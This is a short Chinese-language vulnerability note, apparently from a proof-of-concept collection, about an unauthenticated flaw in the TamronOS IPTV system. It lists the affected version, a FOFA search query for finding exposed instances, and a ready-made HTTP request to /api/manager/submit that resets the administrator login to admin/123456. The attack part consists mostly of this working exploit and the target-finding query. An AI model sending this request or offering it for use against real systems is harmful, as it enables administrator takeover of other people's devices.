

## TamronOS IPTV系统存在任意用户添加修改

## 漏洞描述

TamronOS IPTV系统存在任意用户添加修改,攻击者可以利用此漏洞新增管理员，或者利用此漏洞重置管理员账户密码。

## 漏洞影响

> TamronOS IPTV v5 3..6.6

## FOFA

> title="TamronOS IPTV系统"

## 复现

1）登录界面


2）POC如下,直接修改用户名密码为admin/123456

```
/api/manager/submit?group=1&password=123456&rnd=0.27576036347932775&status=1&username=admin 
```

 

3）登录

